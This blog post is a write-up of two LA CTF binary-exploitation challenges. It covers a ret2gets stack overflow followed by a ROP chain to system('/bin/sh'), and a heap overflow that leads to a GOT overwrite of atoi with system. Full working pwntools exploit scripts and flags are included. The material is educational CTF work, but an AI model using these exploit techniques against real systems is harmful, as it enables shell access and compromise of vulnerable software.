



Another year, another LA CTF. As per usual this CTF was quite fun to play and I enjoyed it quite a bit. Also, my teammates went sicko mode and we got 10th, so all in a weekend's
work I suppose. Below are write-ups for `minecraft` and `gamedev`, both fun challenges. 


# minecraft | 80 Solves
>look mom i made minecraft!

At first glance this challenge seems pretty straight forward. We've got a buffer overflow in `main()` due to the use of `gets()`. Beyond that there is not much else of importance; there are some menu options which advocate for the playing of survival mode, and as soon as our world is created we are blown up by a creeper. Pretty typical. We can also choose to exit the infinite loop of `main()` if we wish. The contents of main can be seen below. 

```c
int main(void) {
  setbuf(stdout, NULL);
  while (1) {
    puts("\nM I N C E R A F T\n");
    puts("1. Singleplayer");
    puts("2. Multiplayer");
    if (read_int() != 1) {
      puts("who needs friends???");
      exit(1);
    }
    puts("Creating new world");
    puts("Enter world name:");
    char world_name[64];
    scanf(" ");
    gets(world_name);
    puts("Select game mode");
    puts("1. Survival");
    puts("2. Creative");
    if (read_int() != 1) {
      puts("only noobs play creative smh");
      exit(1);
    }
    puts("Creating new world");
    sleep(1);
    puts("25%");
    sleep(1);
    puts("50%");
    sleep(1);
    puts("75%");
    sleep(1);
    puts("100%");
    puts("\nYOU DIED\n");
    puts("you got blown up by a creeper :(");
    puts("1. Return to main menu");
    puts("2. Exit");
    if (read_int() != 1) {
      return 0;
    }
  }
}
```
Also it should be noted that this binary has minimal protection. No canary or PIE and partial RELRO. 

So we know we have a buffer overflow, and as there is no `win()` function, we'll have to return to libc somehow. But how to do that? Well we'll need a libc leak to even start thinking about that and there isn't a way to do that as there is. No printf stack leak or other built in primitives. ROP gadget time! But the tried and true `pop rdi` -> leak GOT with printf or similar -> put `/bin/sh` into `rdi` -> ret2 `system()` pipeline isn't going to work here. There are no `pop rdi` gadgets so we will not be able to control the first argument that way. 

But never fear! For during Cyberspace's CTF back in September I found out about a cool technique coined `ret2gets`. There is a super awesome blog post that I not only used for my exploit here, but also explains this attack very well. It also explains the disappearance of `pop rdi; ret` gadgets in binaries complied with GLIBC >=2.34. All my homies miss `_libc_csu_init`, RIP to a legend. Here is the [blog](https://sashactf.gitbook.io/pwn-notes/pwn/rop-2.34+/ret2gets). But, here is a quick synopsis. 

GLIBC supports multi-threading which means that many functions need to be thread safe to prevent race conditions. These occur when some entity in one thread tries to access something currently in use by another thread, which would obviously present a problem. When called, most libc IO functions will acquire something called a lock on `stdin`. By placing a lock on something like `stdin` it tells other threads that try to access it that `stdin` is in use and can not be used at that time. Here's where it gets (haha get it?) interesting if it wasn't already. In the case of most GLIBC IO functions, the macro `_IO_acquire_lock` is called at the start to acquire the lock and `_IO_release_lock` is called at the end. `_IO_release_lock` takes in file pointer to `stdin` as is seen here in the libc source for  of libc which is 2.36. However, while debugging in GDB, I did not see `_IO_release_lock` nor any of the locking macros discussed in the aforementioned blog. This is most likely due to compiler optimization. But, what we can see is the following instruction seen below. 



`_IO_2_1_stdin_ + 136` is being loaded into `rdi`. Doing some research `_IO_2_1_stdin_` is the definition of `stdin`. This would make sense that we're seeing this knowing what we know about locking functions at the end of `gets()`. Additionally, `_IO_2_1_stdin_` is of type `FILE`, and as mentioned by sashactf in their blog; 

>"FILE has a field _lock, which is a pointer to a _IO_lock_t (stored at offset +0x88)". 

`0x88` is 136 in decimal. So, we can infer that `_IO_2_1_stdin_ + 136` is the location of the `_IO_lock_t` struct. So, the `_IO_lock_t` struct is being loaded into `rdi` at the end of `gets()`. And, once this is loaded into `rdi`, `gets()` returns shortly after without clobbering it. And there you have it! Through the mist and mire of libc IO and locking we have a pointer to libc in `rdi` when `gets()` returns. Now the question remains, how do we turn this into an exploit?

Well, since now have a pointer to stdin's `_IO_lock_t` struct in rdi, we can simply call `gets()` again to write into this region. But how does that help us? Before we do anything, we'll need a libc leak. Here is the layout of this struct; 

```c
typedef struct {
    int lock;
    int cnt;
    void *owner;
} _IO_lock_t;
```

The `owner` field gets assigned to the address of the `TLS` struct for the current thread. The TLS (Thread Local Storage) struct is a method to keep track of variables that have one instance per thread; for instance, the stack canary is stored here! Crucially, if we can leak this pointer, we'll have our libc leak! What we can do is overflow the buffer, call `gets()` to let us read into this struct, and then send in a payload of 4 chars and three null bytes like so. 

```py
p.sendline(b"A" * 4 + b"\x00"*3)
```

This will over write the `lock` integer and will set `cnt` to zero. Setting the count to zero will cause it to underflow because `cnt` is decremented after a lock is released. See [_IO_lock_unlock](https://elixir.bootlin.com/glibc/glibc-2.35/source/sysdeps/nptl/stdio-lock.h#L67). If you also look at the aforementioned source of `_IO_lock_unlock` you'll see that because of the underflow, the check in the if statement fails and owner does not get set to null. This ensures that the padding up until `*owner` does not contain a null byte and `puts` can successfully print out the `TLS` struct and thus we have our libc leak. 


With this leak we can now calculate the base address of libc by setting a breakpoint after our leak and taking a peak in gdb to calculate the offset relative to the base of libc. The python exploit for everything thus far is as follows. 

```python
from pwn import *
elf = context.binary = ELF("chall_patched")
libc = ELF('libc.so.6')
context.terminal = ['tmux', 'split-window', '-h']
p = elf.process()
gdb.attach(p, script)
offset = 72
ret = 0x0000000000401016
offset = 72
payload = flat([
    b'a' * 72,
    ret,
    elf.plt.gets,
    elf.plt.gets,
    elf.plt.puts,
    ret,
    elf.symbols['main']
])
p.sendlineafter(b'2. Multiplayer\n', b'1')
p.sendlineafter(b'name:', payload)
p.sendlineafter(b'2. Creative', b'1')
p.sendlineafter(b'2. Exit', b'2')
p.sendline(b"A" * 4 + b"\x00"*3)
p.recvline()
leak = p.recvline()
leak = leak[-7:].strip(b'\n')
leak = u64(leak.ljust(8, b'\x00'))
libc.address = leak + 0x28c0
```
Here we send in some `a`'s to fill up the stack space, a `ret` gadget for some stack alignment, and then we start the meat and potatoes of our ROP chain. We send in the first call to `gets()` to populate RDI with the `_IO_lock_t` struct. The second call to `gets()` allows us to write into that struct up to the address of the `TLS` struct. Then, we call `puts()` to print out that address to us and finally we pass in another `ret` gadget for stack alignment and return to `main()` for the next bit of our exploit. 

Now that we have libc things are pretty straightforward. We're back in main so we can simply overflow the `gets()` buffer again to do our traditional ROP chain. We'll find a `pop rdi` gadget and the address of a `/bin/sh` string in libc, 
and then we'll return to system. The rest of the exploit can be found below. 

```python
pop_rdi = 0x00000000000277e5 + libc.address
binsh = next(libc.search(b"/bin/sh"))
payload2 = flat([
    'a' * offset,
    pop_rdi,
    binsh,
    ret,
    libc.symbols['system']
    ])

p.sendlineafter(b'2. Multiplayer\n', b'1')
p.sendlineafter(b'name:', payload2)
p.sendlineafter(b'2. Creative', b'1')
p.sendlineafter(b'2. Exit', b'2')

p.interactive()

# lactf{miiineeeee_diaaaaamoooonddsssssss_ky8cnd5e}
```
And then we get the flag! Was a fun challenge and a cool application of the ret2gets technique. 

# gamedev | 108 Solves 

>You've heard of rogue-likes, but have you heard of heap-likes?

This challenge took me a little bit to reason through. It's a linked list like challenge where each entry in the list can contain data and pointers to other "levels". Here is the basic structure. 

```c
struct Level *start = NULL;
struct Level *prev = NULL;
struct Level *curr = NULL;

struct Level
{
    struct Level *next[8];
    char data[0x20];
};
```

As you can see each "level" can store 8 more levels as well as `0x20` bytes of data. There is also a `start`, `prev`, and `curr` pointer kept updated globally. The way I looked at this is levels are added in tiers. Each tier can have eight levels. Pointers to levels in each tier are stored in the first level of that tier. Later we'll see how you can navigate between tiers as each level in each tier can have eight more levels. The program provides a decent bit of functionality for interacting with this linked list. 

The first we'll examine is the `create_level` function. 

```c
void create_level()
{
    if (prev == curr) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }

    printf("Enter level index: ");
    int idx = get_num();

    if (idx < 0 || idx > 7) {
        puts("Invalid index.");
        return;
    }

    struct Level *level = malloc(sizeof(struct Level));
    if (level == NULL) {
        puts("Failed to allocate level.");
        return;
    }

    level->data[0] = '\0';
    for (int i = 0; i < 8; i++)
        level->next[i] = NULL;

    prev = level;

    if (start == NULL)
        start = level;
    else
        curr->next[idx] = level;
}
```

Basically we get to specify an index and our new level is placed on the heap. Everything is pretty straightforward. 

Next let's examine the `explore` functionality. 

```c
void explore()
{
    printf("Enter level index: ");
    int idx = get_num();

    if (idx < 0 || idx > 7) {
        puts("Invalid index.");
        return;
    }

    if (curr == NULL) {
        puts("No level to explore.");
        return;
    }

    curr = curr->next[idx];
}
```

This will let us select an index of a level at the current "tier", and that level becomes our current starting level, also the start of a new "tier". I thought of this like taking a "branch". This 
functionality will become useful to us. 

Now we can look at the `edit_level` functionality; this is where things get interesting. 

```c
void edit_level()
{
    if (start == NULL || curr == NULL) {
        puts("No level to edit.");
        return;
    }

    if (curr == prev || curr == start) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }

    printf("Enter level data: ");
    fgets(curr->data, 0x40, stdin);
}
```

This let's us edit the level we are currently at. We can traverse levels with the aforementioned explore functionality. You might have noticed something strange though; our `Level` struct only sets aside `0x20` bytes available for data but here we can enter in as much as `0x40` bytes. So, we've got ourselves a wee bit of an overflow. 

There's only a little bit more of functionality to cover. There is a `test_level` function which lets us print out data at our current level. That function can be seen below. 

```c
void test_level()
{
    if (start == NULL || curr == NULL) {
        puts("No level to test.");
        return;
    }

    if (curr == prev || curr == start) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }

    printf("Level data: ");
    write(1, curr->data, sizeof(curr->data));
    putchar('\n');
}
```

There is a useful `reset` function that takes us back to the first "tier" of levels via the global "start" pointer.

```c
void reset()
{
    curr = start;
}
```

Beyond that everything else is pretty standard. There is a menu function which lets us interact with all of the aforementioned functionality. The main function actually gives us a PIE leak which will be useful for later. There is also an `init()` function which basically just sets up the linked list by creating the starting level and setting the `start` and `curr` pointer. And finally, as far as protections go, the binary has PIE, no canary, partial RELRO, and NX is enabled. 

So, how are we going to exploit this? Well, the plan is to use our heap overflow to overwrite a stored `Level` address to be a function's GOT address. We'll use `atoi`. We'll use the `test_level` functionality to print out `atoi@got` for a libc leak. And then, we'll use our edit functionality to overwrite `atoi` to be something like `system`, performing a GOT overwrite. 

Let's get started. First, we'll create our linked list layout. We start at tier one where we'll create three levels. Then, we'll "explore" to the second level where we'll create two more levels at this second tier. After we do all this you can see below what the heap layout looks like. 



You can see how the blue arrows represent our first "tier" of levels and the lime green represents the second "tier". What will become important are the pointers to the second "tier" levels stored in chunk/level 2 on the first tier. I've labeled those pointers with green arrows. Additionally I include a blue arrow pointing from the initial chunk/level to the second chunk/level just for some more visualization. I wrote some helper python functions which basically interact with the menu so here's how I used them to set up the aforementioned layout.

```python
# Tier 1
create(1)
create(2)
create(3)

# Branch to tier 2
explore(2)
create(1)
create(2)

# Back to tier 1
reset()
```

So now that we've got our layout set up lets use the `reset` function to go back to the first tier. From here, we'll explore to level one and use the overflow to overwrite into the level pointers stored in level 2 on the first tier. We'll send in 40 `a`'s, `0x71` to preserve the next size of the chunk, eight `c`'s to pad out the zero level index, and then a pointer to `atoi@got` - `0x40`. With this we are essentially forging the first level at tier two to be `atoi@got` - `0x40`. We have to include the minus `0x40` because when we eventually "explore" to this level, the program doesn't know this isn't a valid next pointer and it will attempt to increment it by `0x40`. This is because it is technically the second item in the list (if you index at zero which I didn't). You can see the code here in `explore`. 

```c
curr = curr->next[idx];
```
Here is the heap layout once we perform that overwrite. 



Now let's reset to tier one, then explore to the second level in tier one, and then explore to the first level which we have corrupted to be `atoi@got` - `0x40`. Then we can call
`test_level` to print out `atoi@got` which will be a libc leak. The python code to get this far can be seen below. 

```python
reset()
explore(2)
explore(1)

test_level()
p.recvuntil(b'Level data: ')

libc_leak = u64(p.recv()[0:6].ljust(8, b'\x00'))

libc.address = libc_leak - libc.symbols['atoi']
print(hex(libc.address))
```

Finally we can just call `edit_level` which will edit the current level which we have corrupted to be `atoi@got`. We'll overwrite this with `system` and we'll pop a shell! The final bit of code can be seen below. 

```python
final = flat([
    libc.symbols['system']
])
edit(final)
p.interactive()
```

Side note... I tried one gadgets as well as multiple different GOT overwrites and none of them worked. `atoi` had the least impact on the program and after bashing my head I thought to myself "Why not just use system?". Evidently one gadgets are not always the answer, who knew?

Super fun challenge and full exploit script is below. 

```python
from pwn import *
context.terminal = ['tmux', 'split-window', '-h']
elf = context.binary = ELF("chall_patched")
libc = ELF(b'libc.so.6')
#p = elf.process()
p = remote("chall.lac.tf", 31338)

def create(idx):
    index = str(idx).encode()
    p.sendline(b'1')
    p.sendline(index)

def edit(data):
    p.sendline(b'2')
    p.sendline(data)

def test_level():
    p.sendline(b"3")

def explore(idx):
    p.sendline(b"4")
    p.sendline(str(idx).encode())

def reset():
    p.sendline(b'5')

p.recvline()
leak = p.recvline()
leak = int(leak.split(b': ')[1].strip(b'\n').decode(), 16)
elf.address = leak - elf.symbols['main']

# Tier 1
create(1)
create(2)
create(3)

# Branch 2
explore(2)
create(1)
create(2)

# back to tier 1
reset()
explore(1)
got_atoi = elf.got.atoi - 0x40
payload = flat([
    'b' * 40,
    p64(0x71),
    b'c' * 8,
    got_atoi
])
edit(payload)

reset()
explore(2)
explore(1)
test_level()
p.recvuntil(b'Level data: ')

libc_leak = u64(p.recv()[0:6].ljust(8, b'\x00'))

libc.address = libc_leak - libc.symbols['atoi']
print(hex(libc.address))
final = flat([
    libc.symbols['system']
])
edit(final)
p.interactive()

# lactf{ro9u3_LIk3_No7_R34LlY_RO9U3_H34P_LIK3_nO7_r34llY_H34P}
```
Had a lot of fun playing this CTF, looking forward to next year!